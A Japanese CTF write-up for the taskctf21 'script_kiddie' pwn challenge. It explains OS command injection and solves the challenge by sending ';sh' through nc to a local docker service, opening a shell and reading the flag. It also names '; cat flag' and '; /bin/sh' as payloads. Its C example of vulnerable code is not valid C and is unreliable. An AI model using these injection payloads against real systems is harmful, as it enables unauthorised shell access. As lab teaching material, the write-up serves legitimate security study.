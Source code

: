 ## 事前知識
### OSコマンドインジェクション
外部からの攻撃により、OSコマンドを不正に実行されてしまう問題のこと。

例えば、下記のようなプログラムがあったときに、`; sh`という入力をすると、シェルが立ち上がってしまいます。

```c
int main() {
    char input[16];
    scanf("%s", char);
    system("echo " + char);
}
```

### checksec

```bash
$ checksec script_kiddie
[*] '/home/user/work/taskctf21-public/pwn/script_kiddie/dist/script_kiddie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 方針
- OSコマンドインジェクションをやる

## 解法
サーバの起動

```bash
docker-compose up -d
```

```bash
(echo ";sh"; cat) | nc 127.0.0.1 30005
Which flag do you want?
ls
flag
script_kiddie
start.sh
cat flag
taskctf{n0w_y0u_g0t_shell}
^C
```

## コメント
OSコマンドインジェクションの問題です。一番シンプルなのは「; cat flag」でしょうか？「; /bin/sh」もアリです。気づけば比較的なんでも通ります。

